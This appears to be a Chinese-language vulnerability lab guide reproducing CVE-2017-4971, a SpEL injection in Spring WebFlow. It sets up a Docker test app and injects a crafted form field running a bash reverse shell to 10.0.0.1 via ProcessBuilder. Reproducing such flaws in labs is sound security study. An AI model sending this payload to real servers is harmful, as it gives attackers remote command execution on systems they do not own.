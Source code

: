 # Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 测试环境

运行测试环境：

```
docker compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![](1.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![](2.png)

再点击确认“Confirm”：

![](3.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

（注意：别忘记URL编码）

成功执行，获得shell：

![](5.png)

